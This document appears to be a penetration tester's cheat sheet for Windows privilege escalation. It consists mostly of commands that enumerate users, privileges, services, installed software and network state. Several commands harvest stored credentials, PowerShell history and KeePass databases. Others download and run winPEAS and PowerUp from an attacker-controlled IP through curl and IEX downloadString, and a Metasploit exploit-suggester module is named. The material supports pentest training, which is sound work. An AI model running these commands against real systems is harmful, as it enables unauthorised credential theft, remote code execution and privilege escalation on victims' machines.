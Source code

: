 
> [!NOTE] Note
> set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```powershell
whoami /all

cmdkey /list

systeminfo

net user
net user <current user>
net localgroup

Get-History

(Get-PSReadlineOption).HistorySavePath
type <previous command output>
ls C:\Users\bob\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\

ipconfig /all
netstat -ano
route print

dir C:\
dir "C:\Program Files"
dir "C:\Program Files (x86)"

Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls <service binary path>

$env:AppKey

gci -Path C:\ -Include *.kdbx,.git -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\xampp -Include *.txt,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -h -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci C:\Users\Public

where.exe /R C:\Windows bash.exe
where.exe /R C:\Windows wsl.exe
where.exe /R C:\ MultimasterAPI.dll
```
1.  Snoop on processes
```powershell
Import-Module .\Watch-Command.ps1
Get-Process | watch-command -diff -cont -verbose -property "Image Name"
```
2. Run PEAS,
```powershell
curl 192.168.45.x/winPEAS.exe -o winpeas.exe
.\winpeas.exe
```
3. PowerUp
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.x/PowerUp.ps1');Invoke-Allchecks
```
4. Running the `sysinfo` command shows us that the system is of x86 bit architecture, giving us even more reason to trust the Local Exploit Suggester
```
post/multi/recon/local_exploit_suggester
```